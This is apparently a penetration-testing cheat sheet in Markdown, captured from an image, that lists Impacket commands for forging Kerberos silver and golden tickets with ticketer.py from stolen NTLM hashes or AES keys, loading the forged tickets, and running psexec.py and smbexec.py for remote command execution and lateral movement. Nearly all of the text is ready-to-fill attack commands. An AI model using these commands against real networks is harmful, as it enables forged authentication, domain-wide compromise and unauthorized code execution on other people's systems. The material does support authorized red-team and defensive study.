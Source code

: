 ## silver_ticket

### to generate the TGS with NTLM
- `python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### to generate the TGS with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`

## golden_ticket

### to generate the TGT with NTLM
- `python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### to generate the TGT with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### set the ticket for impacket use
- `export KRB5CCNAME=<TGS_ccache_file>`

> search for psexec.py, smbexec.py or wmiexec.py

---

# psexec.py
- service: rpc
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---
# smbexec.py
- service: smb
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---